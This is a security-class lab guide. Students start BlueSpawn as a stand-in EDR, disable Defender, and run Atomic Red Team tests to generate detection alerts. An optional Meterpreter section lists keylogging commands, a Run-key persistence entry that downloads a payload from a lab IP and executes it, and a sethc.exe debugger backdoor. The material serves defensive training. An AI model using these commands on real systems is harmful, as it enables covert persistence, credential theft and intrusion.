



# Atomic Red Team And Bluespawn

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn. 

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

First, we need to disable Defender. 
Start by opening up <b>Windows Powershell</b>.

Next, run the following command:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

This will disable Defender for this session.

>[!NOTE]
>
>If you get angry red errors, that is Ok, it means Defender is not running.

Now, let's open a command prompt by clicking on the icon in the taskbar:

 
Next, let’s change directories to tools and start Bluespawn:

<pre>cd \IntroLabs</pre>

<pre>BLUESPAWN-client-x64.exe --monitor --level Cursory</pre>
 

You should see something like this:

If you made it this far, perfect! That means Bluespawn is up and running.

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell terminal. 

You can do this by selecting the icon in the taskbar:

Now we need to install and update Atomic Red Team. Run the following:

<pre>cd \</pre>

<pre>IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -getAtomics -Force</pre>

>[!NOTE]
>
> This can take a bit. Be patient!

Once you see the following, you are set to move forward:

Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

<pre>cd C:\AtomicRedTeam\invoke-atomicredteam\</pre>

Then, install the proper `yaml` modules by running the following:

<pre>Install-Module -Name powershell-yaml</pre>

>[!NOTE]
>
>When prompted, press Y to install the modules.

<pre>Import-Module .\Invoke-AtomicRedTeam.psm1</pre>

Once we do this, we need to invoke all the Atomic Tests.

>[!IMPORTANT]  
>
>Don't do this in production...  Ever.
>  
>Always run tools like Atomic Red Team on test systems.
>
>We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode. This is so you can see what the protection would have done, but it will allow the tests to finish so we are just going to run individual tests for now.

Run the following individually:

<pre>Invoke-AtomicTest T1547.004</pre>

<pre>Invoke-AtomicTest T1543.003</pre>

<pre>Invoke-AtomicTest T1547.001</pre>

<pre>Invoke-AtomicTest T1546.008</pre>

>[!TIP]
>
>If you get any “file exists” questions or errors, just select `Yes`.

It should look like this:

>[!NOTE]
>
>There might be some errors when this runs. This is 
normal.

>[!NOTICE]
>
>We had to cross reference the old numbering with the new.
>
>You can find that mapping here:
>
>https://attack.mitre.org/docs/subtechniques/subtechniques-crosswalk.json
>
>

You should be getting a lot of alerts with Bluespawn! Switch tabs in your Terminal to see them:

Now, let’s go back to the PowerShell window and clean up:

<pre>Invoke-AtomicTest All -Cleanup</pre>

It should look like this:

# Optional Section: Meterpreter

If you have more time, feel free to exploit system using the commands we went through in AppLocker or Sysmon and then run the following Meterpreter commands:

<pre>keyscan_start</pre>

<pre>keyscan_dump</pre>

<pre>shell</pre>

<pre>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f</pre>

<pre>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"</pre>

<pre>getsystem</pre>

***                                                                 

<b><i>Continuing the course?  [Next Lab](/IntroClassFiles/Tools/IntroClass/Portspoof/Portspoof.md)</i></b>

<b><i>Want to go back?  [Previous Lab](/IntroClassFiles/Tools/IntroClass/RITA_ADHD/RITA_ADHD.md)</i></b>

<b><i>Looking for a different lab?  [Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---

